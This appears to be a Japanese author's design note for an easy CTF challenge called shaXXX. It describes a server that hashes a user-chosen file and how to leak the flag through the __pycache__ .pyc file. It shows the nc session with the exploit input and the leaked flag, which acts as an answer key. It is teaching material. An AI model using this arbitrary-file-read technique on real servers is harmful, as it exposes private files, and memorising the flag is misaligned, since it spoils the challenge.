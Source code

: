 # shaXXX

## 題材とする脆弱性

pycacheを経由した別ファイル情報の漏洩

## 実現するためのテーマ

flag.pyを読み取るプログラムを実行した上で、flag.py以外のいくつかのファイルを読み取れるサーバを用意する。

## 想定する参加者が解答までに至る思考経路

1. 実行ファイルより下のディレクトリの任意のファイルにアクセスできることに気付く
2. ファイルの読み取りに`rb`が使用されていることに気付く
3. 手元で実行してみると、__pycache__ディレクトリが生成されており、中にフラグが入っていることに気付く

```sh
$ nc localhost 25612
3.10.11 (main, Apr  6 2023, 01:16:54) [GCC 12.2.1 20220924]
Input your salt file name(default=./flags/sha256.txt):./flags/sha512.txt
hash=b'4ba07ff50a9620a24b02a16dab505080c23dfbc641b5de77a29af3d81b5aab2f30e4a1405e8657b03d30bfda45411e34372868a862e5a5d50724ded12a0c31d5'

$ nc localhost 25612
3.10.11 (main, Apr  6 2023, 01:16:54) [GCC 12.2.1 20220924]
Input your salt file name(default=./flags/sha256.txt):__pycache__/flag.cpython-310.pyc
hash=b'o\r\r\n\x00\x00\x00\x00\xc1\n9d:\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00@\x00\x00\x00s\x08\x00\x00\x00d\x00Z\x00d\x01S\x00)\x02s\x19\x00\x00\x00ctf4b{c4ch3_15_0ur_fr13nd}N)\x01\xda\x04flag\xa9\x00r\x02\x00\x00\x00r\x02\x00\x00\x00\xfa\x18/home/ctf/shaXXX/flag.py\xda\x08<module>\x01\x00\x00\x00s\x02\x00\x00\x00\x08\x01'
```

## 想定する難易度

Easy

## 参考資料

